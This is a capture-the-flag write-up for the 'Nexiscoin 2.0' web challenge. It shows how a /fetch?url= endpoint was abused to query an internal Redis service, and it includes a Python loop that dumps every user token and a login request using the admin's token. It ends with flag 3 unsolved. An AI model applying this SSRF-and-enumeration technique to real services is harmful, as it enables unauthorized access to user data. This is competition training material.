 ```yaml
---
layout: Post
format: chall
title: Nexiscoin 2.0
date: 2024-12-07
ctf: TRACS
tags: [Redis]
category: [Web]
---
```

# Nexiscoin 2.0

## Flag 1

### Recon

We are given a website with documentation about it's API, we learn that there are `/admin/` routes that require the correct Access Token, and that there is a whole transaction system with blockchain (This is not a Web3 challenge, it's just a simulation).

we can't do much with it, login/register routes are "disabled by admin", and all the transactions data are read-only.

Looking around some more with burp we see a `GET /fetch?url=http://127.1:7379/GET/total_account HTTP/1.1` being done by the website. The `/GET/total_account` looks like a redis command, let's try to pass the request: `/KEYS/*`.

It works! We get 682 keys, two of them are not API keys but data points: `total_transaction` and `total_account`.

> Flag 1: How many users are registered on the platform?
>
> 680

## Flag 2

The 680 keys appear to be user IDs, let's try to call `/GET/<API_key>` on one of them, we get a hash, that when decoded from base58 gives the following:

```py
{
  'header': {
    'version': 2
  },
  'payload': {
    'user': 'hsalazar@madden-riley.org',
    'type': 'user',
    'permission': 'read,write'
  },
  'signature': '44234ab207b239ab94b2c7c1199b1ee921ff8b213d1e86b6af797d339fdb5227'
}
```

Interesting, we can try to bruteforce the API to fetch all the data from all the users:

```py
import requests
from time import sleep
import json
import base58

print("key;data")

for l in L:
    res = requests.get(f"http://138.195.249.52:5000/fetch?url=http://127.1:7379/GET/{l}")
    if res.status_code != 200:
        print(f"Error for {l}")
        break
    data = json.loads(res.text)
    hash = data['GET'].replace("['", "").replace("']", "")
    decoded = json.loads(base58.b58decode(hash).decode())

    print(f"{l};{decoded}")
    sleep(.1)
```

We this we get [data.csv](data.csv) of all the file data for each user, and their signature.

Looking for anything that stands out we find the `admin` user:

```csv
key;data
token_FjVQph;{'header': {'version': 2}, 'payload': {'user': 'admin@nexiscoin.ev', 'type': 'admin', 'permission': 'read,write'}, 'signature': 'a633755fd62582550c05768e204c0cb324ab72b01442ebb04491ca3be7269414'}
```

> Flag 2: What is the signature of the admin user?
>
> a633755fd62582550c05768e204c0cb324ab72b01442ebb04491ca3be7269414

## Flag 3

From here, the first thing that comes to mind is to try and login as the `admin`, to do so we use the API and try to login as that user, after some trial and error I found that you cna login using a accessToken which is the base58 data we are given for a user:

`POST http://138.195.249.52:5000/api/login` with as a body:

```json
{
  "token": "2ecXF5d83jGAhHH2gjfYSJGifh9NcVo3CmQ584nkUu9kA9KrxmN3JX2USYJaaPV5pE7BMKmG4pw3zRUUDXCQjE3CY2mm3Uk9P8DwM4tujjHKVDjTVDAgcNfWx2DAMTWNiKtM4BYyJeqouup5m4b322W19ecXNy3fGD2iViPeb62pibdB63WKehVq6R5m9voW83HnxtpnfFxsarx9aSundV24WmF7w4mHUeH75PXmKP579qeUKnUBHRw8vbcDmXAEZV6QdWp5nm2
}
```

This gives us:

```json
{
    "access_token1": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczMzU4Mjk2OCwianRpIjoiZDIwOGMxNDUtZWY3Mi00MWZkLTk2ZjUtMTY1ODhlOTQxOGNmIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBuZXhpc2NvaW4uZXYiLCJ0eXBlIjoidXNlciJ9LCJuYmYiOjE3MzM1ODI5NjgsImNzcmYiOiIzMDlmZDIwZS1lYzE0LTRiNzAtYTk3Mi0xMDhkNmNiMWUwN2IiLCJleHAiOjE3MzM1ODM4Njh9.WncmQRRCR0dYKMOxxN3wqmeNGX4Rfh1OsybLHMCzIrI",
    "access_token2": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczMzU4Mjk2OCwianRpIjoiODQ0N2VlOWQtNzhiYi00ZWRhLTkyNjItNDRmZTY0ZWRiMjdlIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBuZXhpc2NvaW4uZXYiLCJ0eXBlIjoidXNlciJ9LCJuYmYiOjE3MzM1ODI5NjgsImNzcmYiOiI4MzRmMWJlYy0wN2VhLTQ4NzgtODI0Ni1lZmUyYWEwNDVhZmIifQ.vK_fOWH80yqDGxuJxQQ5gb5AX8hG42XkJzOIGtLSGhE"
}
```

Both have standard header with `HS256`.

`access_token1`:

```json
{
  "fresh": false,
  "iat": 1733582968,
  "jti": "d208c145-ef72-41fd-96f5-16588e9418cf",
  "type": "access",
  "sub": {
    "id": 1,
    "email": "admin@nexiscoin.ev",
    "type": "user"
  },
  "nbf": 1733582968,
  "csrf": "309fd20e-ec14-4b70-a972-108d6cb1e07b",
  "exp": 1733583868
}
```

`access_token2`:

```json
{
  "fresh": false,
  "iat": 1733582968,
  "jti": "8447ee9d-78bb-4eda-9262-44fe64edb27e",
  "type": "access",
  "sub": {
    "id": 1,
    "email": "admin@nexiscoin.ev",
    "type": "user"
  },
  "nbf": 1733582968,
  "csrf": "834f1bec-07ea-4878-8246-efe2aa045afb"
}
```

But from here I attempted to call the `/admin/` routes of the API or even just access transactional data for the user with many different techniques, but nothing worked.

At some point the admins gave us a huge dump of all the sell/buy/transactions in the database (looks like I wasn't the only one struggling with logins 😅)

From here we have to comb trough a ton of data. I wrote some scripts, tried to parse it as much as possible, I always ended up with dead ends, the issue came from the ambiguity of the question:

> Flag 3: Who is the user that made more than 15 transactions of 40000USD.

We are unsure of:

- the format of the flag,
- if 15 is counted as a transaction or not
- if the user has to have made 15 transactions of 40000USD or 15 transactions of each 40000USD or more.

My best shot gave me 18 potential suspects, though the CTFd had a plugin that would also remove points for failed attempts. Loosing 100pts for each try, and the flag only values at 700 points, it was too much risk to try and guess the flag.
